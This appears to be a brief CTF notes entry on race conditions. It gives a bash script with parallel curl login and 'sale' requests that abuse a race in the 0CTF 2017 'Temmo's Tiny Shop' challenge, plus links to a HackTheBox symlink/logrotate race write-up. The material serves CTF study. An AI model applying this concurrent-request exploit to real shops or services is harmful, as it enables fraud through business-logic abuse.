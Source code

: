# racing, race-condition

```bash
username=
password=
cookie1="PHPSESSID=3k21rt4acut215r1adlrq5m0p0"
cookie2="PHPSESSID=ck8pgb52nkkb8sdg2c95ms7s16"
url="http://202.120.7.197/app.php"

curl "$url?action=login" -b $cookie1 -d "username=$username&pwd=$password" &\
curl "$url?action=login" -b $cookie2 -d "username=$username&pwd=$password"

curl "$url?action=buy&id=1" -b $cookie1

curl "$url?action=sale&id=1" -b $cookie1 &\
curl "$url?action=sale&id=1" -b $cookie2
```
- [Temmo's Tiny Shop - 0CTF 2017](https://www.40huo.cn/blog/0ctf-2017-writeup.html)

### symlink

- [Book \- HackThebox | Samir Ettali](https://samirettali.com/writeups/hackthebox/book/)
    - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition
